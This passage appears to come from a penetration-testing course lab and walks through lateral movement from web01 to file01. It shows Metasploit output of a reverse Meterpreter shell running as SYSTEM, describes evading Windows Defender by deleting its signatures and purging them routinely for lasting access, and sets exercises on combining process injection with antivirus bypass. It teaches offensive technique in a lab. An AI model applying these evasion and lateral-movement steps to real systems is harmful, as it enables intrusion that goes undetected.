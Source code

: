 
> Listing 48 - AV signatures are removed before starting Meterpreter

Now we must upload the new version of lat.exe to web01 and ensure that inject.exe is still present on file01.

Once everything is in order and a listener has started, we'll launch lat.exe.

```
msf5 exploit(multi/handler) > exploit

[*] Started HTTPS reverse handler on https://192.168.119.120:443
[*] https://192.168.119.120:443 handling request from 192.168.120.131; (UUID: iu2gl81c) Staging x64 payload (207506 bytes) ...
[*] Meterpreter session 3 opened (192.168.119.120:443 -> 192.168.120.131:49769)

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

meterpreter > sysinfo
Computer        : FILE01
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : EVIL
Logged On Users : 7
Meterpreter     : x64/windows
```

> Listing 49 - Obtaining a reverse Meterpreter shell on file01

The output shows that we have received a new SYSTEM-context reverse Meterpreter shell. We have performed lateral movement from web01 to file01 and obtained a SYSTEM-context Meterpreter. In the process, we evaded antivirus detection by removing its signatures. Very Nice!

Typically, Windows Defender would periodically perform signature updates so if we need prolonged access through a Meterpreter shell, we may need to routinely purge the definitions with a script.

From here, we can perform more post-exploitation, which will hopefully lead us to additional compromises in the domain.

#### Exercises

1. Combine the code required to perform process injection and bypass AV detection.
2. Modify the lateral movement code and transfer all the required files to the appropriate locations.
3. Attempt lateral movement with a Meterpreter payload directly and determine if it was caught by AV.
4. If your Meterpreter session timed out, adapt your code to remove the AV definitions.
5. Obtain a Meterpreter shell on file01 without any Windows Defender flags.

1

(Martin Brinkmann, 2017), [https://www.ghacks.net/2017/08/29/microsoft-network-realtime-inspection-service-information/](https://www.ghacks.net/2017/08/29/microsoft-network-realtime-inspection-service-information/) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5595-1)
